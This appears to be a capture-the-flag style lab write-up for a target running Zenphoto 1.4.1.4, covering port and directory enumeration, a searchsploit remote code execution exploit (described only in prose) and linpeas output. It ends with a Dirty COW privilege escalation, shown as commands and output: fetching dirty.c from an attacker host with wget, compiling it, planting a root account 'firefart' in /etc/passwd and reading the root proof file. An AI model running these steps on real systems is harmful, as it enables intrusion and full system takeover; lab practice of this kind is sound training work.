






# Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop]
└─$ sudo nmap --top-ports=50 -Pn 192.168.231.41 
[sudo] password for aaron: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-15 06:21 +0330
Nmap scan report for 192.168.231.41
Host is up (0.29s latency).
Not shown: 46 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql

```

# Web Enumeration

## Port 80

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/zenphoto]
└─$ dirsearch -u "http://192.168.231.41/"

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                  
 (_||| _) (/_(_|| (_| )                                                                                           
                                                                                                                  
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/aaron/.dirsearch/reports/192.168.231.41/-_23-08-15_07-36-17.txt

Error Log: /home/aaron/.dirsearch/logs/errors-23-08-15_07-36-17.log

Target: http://192.168.231.41/

[07:36:18] Starting: 
[07:37:21] 200 -   75B  - /index                                            
[07:37:21] 200 -   75B  - /index.html                                       
[07:37:50] 301 -  315B  - /test  ->  http://192.168.231.41/test/            
[07:37:50] 200 -    5KB - /test/                                            
                                       
```

Index just show `UNDER CONTRUCATION`.


Then jump to `/test`, will see a search bar.



Then check the source code, we can know `zephoto` version is 1.4.1.4



Use `searchsploit` to search `zenphoto`, then can find a RCE.



Then try to use this exploit.



Then can get rce with commands.



Use python to get stable shell.



# PE

```bash
═══════════════════════════════╣ Basic information ╠═══════════════════════════════ 
OS: Linux version 2.6.32-21-generic (buildd@rothera) (gcc version 4.4.3 (Ubuntu 4.4.3-4ubuntu5) ) #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                       
Sudo version 1.7.2p1 

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                                
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=100(libuuid) gid=101(libuuid) groups=101(libuuid)
uid=101(syslog) gid=103(syslog) groups=103(syslog)
uid=102(messagebus) gid=107(messagebus) groups=107(messagebus)
uid=103(avahi-autoipd) gid=110(avahi-autoipd) groups=110(avahi-autoipd)
uid=104(avahi) gid=111(avahi) groups=111(avahi)
uid=105(couchdb) gid=113(couchdb) groups=113(couchdb)
uid=106(speech-dispatcher) gid=29(audio) groups=29(audio)
uid=107(usbmux) gid=46(plugdev) groups=46(plugdev)
uid=108(haldaemon[0m) gid=114(haldaemon[0m) groups=114(haldaemon[0m)
uid=109(kernoops) gid=65534(nogroup) groups=65534(nogroup)
uid=110(pulse) gid=115(pulse) groups=115(pulse),29(audio)
uid=111(rtkit) gid=117(rtkit) groups=117(rtkit)
uid=112(saned) gid=118(saned) groups=118(saned)
uid=113(hplip) gid=7(lp) groups=7(lp)
uid=115(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=116(mysql) gid=123(mysql) groups=123(mysql)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)


╔══════════╣ Useful software
/usr/bin/base64                                                                                                                                       
/usr/bin/gcc
/usr/bin/gdb
/usr/bin/make
/bin/nc
/bin/netcat
/usr/bin/perl
/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.6
/usr/bin/sudo
/usr/bin/wget
/usr/bin/xterm

-rw-r--r-- 1 root root 3562 Nov  9  2011 /etc/mysql/my.cnf


```

Use `dirtycow` to PE, then get root.

```bash
www-data@offsecsrv:/tmp$ wget 192.168.45.178/dirty.c
wget 192.168.45.178/dirty.c
--2023-08-15 04:34:53--  http://192.168.45.178/dirty.c
Connecting to 192.168.45.178:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/x-csrc]
Saving to: `dirty.c'

100%[======================================>] 4,815       --.-K/s   in 0s      

2023-08-15 04:34:53 (17.7 MB/s) - `dirty.c' saved [4815/4815]

www-data@offsecsrv:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@offsecsrv:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: aaron

Complete line:
firefart:fi/ntHwvX4FCI:0:0:pwned:/root:/bin/bash

mmap: b7815000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'aaron'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
firefart@offsecsrv:~# cat /etc/passwd
cat /etc/passwd
firefart:fi/ntHwvX4FCI:0:0:pwned:/root:/bin/bash
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:107::/var/run/dbus:/bin/false
avahi-autoipd:x:103:110:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:104:111:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
couchdb:x:105:113:CouchDB Administrator,,,:/var/lib/couchdb:/bin/bash
speech-dispatcher:x:106:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
usbmux:x:107:46:usbmux daemon,,,:/home/usbmux:/bin/false
haldaemon:x:108:114:Hardware abstraction layer,,,:/var/run/hald:/bin/false
kernoops:x:109:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:110:115:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:111:117:RealtimeKit,,,:/proc:/bin/false
saned:x:112:118::/home/saned:/bin/false
hplip:x:113:7:HPLIP system user,,,:/var/run/hplip:/bin/false
sshd:x:115:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:116:123:MySQL Server,,,:/var/lib/mysql:/bin/false

su firefart
Password: aaron

firefart@offsecsrv:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@offsecsrv:/tmp# cd /root
cd /root
firefart@offsecsrv:~# cat proof.txt
cat proof.txt
8533dff8fad8b3e16fbde5a7f4c5c968
firefart@offsecsrv:~# 

```

